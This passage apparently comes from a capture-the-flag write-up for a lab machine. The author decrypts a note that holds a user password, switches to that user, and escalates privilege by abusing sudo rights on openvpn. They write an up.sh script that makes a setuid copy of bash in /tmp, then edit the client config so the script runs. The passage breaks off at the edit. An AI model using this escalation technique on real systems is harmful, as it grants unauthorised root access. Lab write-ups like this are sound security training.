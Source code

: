 ```bash
gpg --decrypt note_from_pood.gpg
```

Decrypted.

```bash
lone@pylon:~$ cat decrypted_file.txt
Hi Lone,

Can you please fix the openvpn config?

It's not behaving itself again.

oh, by the way, my password is yn0ouE9JLR3h)`=I

Thanks again.
```

We got password for pood. `su pood` .

### Priv Esc to root

`sudo -l` - we can run openvpn as root.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reading the man page for openvpn we see that we can run a script on successful connection to a VPN server, so lets write a script to take control of the machine.

I created a `up.sh` file in /tmp dir.

```bash
lone@pylon:~$ cat /tmp/up.sh 
#!/bin/bash

cp /bin/bash /tmp
chmod 4777 /tmp/bash

# give everybody full access to the script.
chmod 777 /tmp/up.sh
```

Now we edit the openvpn file.

```bash
sudoedit /opt/openvpn/client.ovpn
```
